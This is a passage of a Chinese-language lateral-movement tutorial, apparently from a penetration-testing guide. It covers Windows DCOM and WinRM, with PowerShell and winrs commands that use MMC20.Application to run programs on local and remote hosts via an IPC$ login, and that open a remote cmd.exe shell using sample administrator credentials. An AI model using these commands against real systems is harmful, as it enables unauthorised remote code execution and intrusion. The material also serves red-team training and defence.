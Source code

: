 ### 5.8 DCOM 在远程系统中的使用

DOCM(分布式组件对象模型) 是微软一系列概念和程序接口，通过 DOCM，客户端程序对象能够向网络中的另一台计算机上的服务程序对象发送请求

通过本地 DCOM 执行命令：

```
Get-CimInstance Win32\_DCOMApplication
#使用 Poweshell3.0 获取本地 DCOM 程序列表(win server 2012以上)

Get-WmiObject -Namespace ROOT\\CIMV2 -Class Win32\_DCOMApplication
#使用 Poweshell2.0 获取本地 DCOM 程序列表(win7、win server 2008)

$com=\[activator\]::CreateInstance(\[type\]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
#通过Powershell使用DCOM本地执行calc.exe


```

使用 DCOM 远程执行命令：

```
net use \\\\192.168.100.190\\ipc$ "123456" /user:administrator
#首先需使用本地账号建立远程IPC$连接

$com=\[activator\]::CreateInstance(\[type\]::GetTypeFromProgID("MMC20.Application","192.168.100.190"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","")
#通过Powershell使用DCOM远程执行calc.exe


```

### 5.9 WinRM 远程管理服务

WinRM 指的是 Windows 远程管理服务，通过远程连接 winRM 模块可以操作 windows 命令行，默认监听端口 5985（HTTP）&5986 (HTTPS)，在 2012 以后默认开启。

执行命令：

```
winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "whoami /all"
winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "cmd.exe"


```